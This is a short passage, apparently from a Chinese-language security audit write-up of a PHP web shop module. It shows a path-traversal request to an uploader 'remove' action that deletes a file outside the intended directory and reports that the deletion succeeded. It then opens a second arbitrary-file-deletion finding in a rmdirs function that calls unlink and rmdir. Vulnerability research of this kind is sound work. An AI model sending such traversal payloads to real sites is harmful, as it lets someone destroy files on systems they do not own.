 `/index.php?mod=mobile&do=util&act=uploader&m=eshop&op=remove&file=../aaa.txt`

![29.png](assets/1704791760-7fa92ff76548cc202ab2b2d6d2309e43.png)

![30.png](assets/1704791760-a5d5d7635ea65c9d1b1fc41562bf6c50.png)

成功删除

#### 任意文件删除二

common.inc.php 中的 rmdirs 函数同样调用了 unlink 函数，并且发现还调用了 rmdir 函数  